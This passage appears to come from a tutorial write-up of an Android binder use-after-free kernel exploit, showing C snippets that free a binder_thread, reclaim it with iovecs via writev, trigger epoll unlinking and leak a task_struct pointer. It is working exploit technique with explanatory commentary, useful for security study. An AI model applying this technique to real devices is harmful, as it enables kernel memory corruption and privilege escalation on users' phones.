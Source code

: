 
### Linking binder_thread and eppoll_event

```c
epoll_add(epfd, binder_fd);
```

Connecting structure together. Explained at  [Linking epitem -> epoll_entry -> binder_thread](#linking-epitem---epoll_entry---binder_thread)

### Forking

```c
pid_t leak_pid = fork();
```

We will now have `child` and `parent` happening at same time. But first we will look at `parent` because `child` will `sleep(2)`.

#### (Parent Process) Free binder_thread and Allocate Iovecs
```c
binder_thread_exit(binder_fd);
// Should wrote PAGE_SIZE*2 since we have two iovec with PAGE_SIZE
writev(pipe_fd[1], iovecs, IOVEC_COUNT);
```

This will free `binder_thread` which will leave `kmalloc-512` cache freed. We fill that address with our `iovecs` by doing `writev`

`writev` should be blocking until child does `read` with `PAGE_SIZE` since we set `pipe` to `PAGE_SIZE`

#### (Child Process)  Cause unlinking 

```c
sleep(2); // Block so parent can setup iovecs kmalloc
epoll_del(epfd, binder_fd); // Cause Unlinking (list_del)
read(pipe_fd[0], data_buffer, PAGE_SIZE); // Should read PAGE_SIZE
exit(EXIT_SUCCESS);
```

At this state, we should have caused where `binder_thread` used to be with our `iovecs`.
Calling `epoll_del` will cause `unlinking`. Then we call `read` so that parent's `writev` gets unblocked and exit.

It should have done operation below

```c
//0xa8 since 0xa0 is where binder_thread.wait.lock is. wait.next is 0xa8
iovecs[10].iov_len = iovecs_kmalloc_ptr+0xa8 
iovecs[11].iov_base = iovecs_kmalloc_ptr+0xa8
```

#### (Parent Process) Read task_struct

```c
// Read iovecs[11]
read(pipe_fd[0], data_buffer, PAGE_SIZE);
// Wait till child exit
wait(nullptr);

// TASK_STRUCT_OFFSET_IN_LEAKED_DATA == 0xe8
struct task_struct *task = (struct task_struct *)*((int64_t *)(data_buffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
```
